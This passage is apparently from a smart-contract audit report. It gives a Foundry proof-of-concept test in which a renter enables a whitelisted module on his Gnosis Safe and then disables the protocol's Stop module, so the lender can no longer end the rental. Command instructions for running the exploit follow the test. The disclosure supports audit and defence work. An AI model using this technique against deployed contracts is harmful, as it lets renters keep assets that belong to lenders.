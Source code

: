 ```solidity
        admin.toggleWhitelistExtension(address(mockTarget), true);

        // Enable the module on Bob's safe
        bytes memory enableModuleCalldata = abi.encodeWithSelector(
            gnosis_safe_enable_module_selector,
            address(mockTarget)
        );
        bytes memory transactionSignature = SafeUtils.signTransaction(
            safe,
            bob.privateKey,
            safe,
            enableModuleCalldata
        );
        SafeUtils.executeTransaction(
            safe,
            safe,
            enableModuleCalldata,
            transactionSignature
        );

        // Disable Reclaimer module by calling disableModule(prevModule, module)
        // Since modules are stored as a reversed linked list, prevModule is the next added module
        // i.e. our whitelisted module and the call passes
        bytes memory disableModuleCalldata = abi.encodeWithSelector(
            gnosis_safe_disable_module_selector,
            address(mockTarget),
            stop
        );
        transactionSignature = SafeUtils.signTransaction(
            safe,
            bob.privateKey,
            safe,
            disableModuleCalldata
        );
        SafeUtils.executeTransaction(
            safe,
            safe,
            disableModuleCalldata,
            transactionSignature
        );

        // speed up in time past the rental expiration
        vm.warp(block.timestamp + 750);

        // Verify that we can't stop the rental since the Stop contract isn't a module anymore
        vm.prank(alice.addr);
        // - `GS104`: `Method can only be called from an enabled module`
        vm.expectRevert("GS104");
        stop.stopRent(rentalOrder);
    }
```
To run the exploit test:
- Add the test to the `StopRent.t.sol` file and run it using the command `forge test --mt test_Vuln_CanRemoveReclaimModule`. This will run the test above, which should demonstrate the exploit by showing that the rental cannot be stopped due to the `Stop` contract no longer being a module.
